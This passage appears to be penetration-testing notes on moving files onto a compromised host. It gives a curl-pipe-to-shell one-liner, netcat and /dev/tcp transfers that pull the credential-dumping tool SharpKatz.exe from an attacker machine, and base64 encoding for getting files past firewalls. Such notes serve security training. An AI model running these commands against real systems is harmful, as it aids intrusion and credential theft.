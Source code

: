 ```bash
curl [LINK] -qO- | [COMMAND]
```

The `COMMAND` is e.g. `bash` or `python3`, that is, what executes the file in the link. Can also be used with a parser, such as `jq '.'`.

#### Netcat

1. Start netcat on the target

   ```bash
   nc -lvnp 8000 --recv-only > [FILE]
   ```

   If the compromised machine is using Ncat,specify `--recv-only` to close the connection once the file transfer is finished.

2. On our machine, we upload the file on netcat

   ```bash
   nc --send-only [IP] [PORT] < [FILE]
   ```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html). Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

1. Open listener on you machine

   ```bash
    sudo ncat -l -p 443 --send-only < SharpKatz.exe
   ```

2. On the target:

   ```bash
   cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
   ```

#### Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from  downloading a file from our machine. 

We can encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.

1. Encode the file

```bash
cat [FILE] |base64 -w 0;echo
```

2. Copy the string

3. Go on the remote host, decode

```bash
echo -n [STRING] | base64 -d > [FILE_NAME]
```
